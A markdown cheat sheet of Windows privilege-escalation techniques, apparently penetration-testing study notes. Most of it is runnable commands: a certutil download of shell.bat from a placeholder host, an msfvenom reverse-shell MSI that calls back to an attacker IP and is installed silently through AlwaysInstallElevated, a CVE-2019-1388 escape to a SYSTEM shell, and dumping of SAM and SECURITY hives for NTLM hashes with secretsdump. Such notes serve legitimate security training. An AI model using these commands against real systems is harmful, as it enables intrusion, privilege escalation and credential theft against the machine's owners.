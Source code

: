 
### **Living Off The Land Binaries and Scripts (LOLBAS)**

- _LOLBAS Project_: Catalogs native or Microsoft-signed binaries/scripts with unintended, attacker-friendly functionality.
- Common use cases:
    - _Code execution_, _file transfers_, _UAC bypass_, _persistence_, _evasion_, _DLL hijacking_, _credential theft_, etc.

#### **Using `certutil.exe`**

- **Download file**:
```powershell
certutil.exe -urlcache -split -f http://<ip>:8080/shell.bat shell.bat
```
- **Encode to base64**:
```cmd
certutil -encode file1 encodedfile
```
- **Decode from base64**:
```cmd
certutil -decode encodedfile file2
```

---

### **AlwaysInstallElevated Exploit**

- Group Policy path:
    - `HKCU` and `HKLM` under:
```
Software\Policies\Microsoft\Windows\Installer
```

#### **Check if enabled**:
```powershell
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

#### **Exploit with malicious MSI**:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=9443 -f msi > aie.msi
```

```cmd
msiexec /i <path>\aie.msi /quiet /qn /norestart
```

---

### **CVE-2019-1388 (Privilege Escalation)**

- Affects `hhupd.exe` (MS-signed binary).
- Exploits hyperlink in certificate dialog to open a _SYSTEM-level_ browser.
- Escape via:
    1. Click "Show certificate info"
    2. Click hyperlink in "Issued by"
    3. Open View Page Source → Save As → Launch `cmd.exe`

- Confirm SYSTEM shell via `whoami`

---

### **Scheduled Tasks**

#### **Enumerate via CMD**:
```cmd
schtasks /query /fo LIST /v
```

#### **Enumerate via PowerShell**:
```powershell
Get-ScheduledTask | select TaskName, State
```
- Tasks may run scripts with SYSTEM privileges.
- Check for _write permissions_ using `accesschk64.exe`.

#### **Check permissions example**:
```cmd
accesschk64.exe /accepteula -s -d C:\Scripts\
```

---

### **User/Computer Description Field**

#### **Local User Enumeration**:
```powershell
Get-LocalUser
```

#### **Computer Description**:
```powershell
Get-WmiObject -Class Win32_OperatingSystem | select Description
```

---

### **Mounting Virtual Disks**

#### **File Types**:

- `.vhd`, `.vhdx` – Hyper-V
- `.vmdk` – VMware
#### **Linux Mount**:
```bash
guestmount -a disk.vmdk -i --ro /mnt/vmdk
guestmount --add disk.vhdx --ro /mnt/vhdx/ -m /dev/sda1
```

#### **Windows Mount Options**:

- Right-click → "Mount"
- Disk Management → Attach VHD
- Use `Mount-VHD` PowerShell cmdlet
- Use **7-Zip** to extract files

---

### **Dumping Hashes from Mounted Drives**

#### **Target directory**:
```makefile
C:\Windows\System32\Config\
```
- Collect `SAM`, `SYSTEM`, `SECURITY` hives

#### **Use secretsdump.py**:
```bash
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```
- Reveals local NTLM password hashes
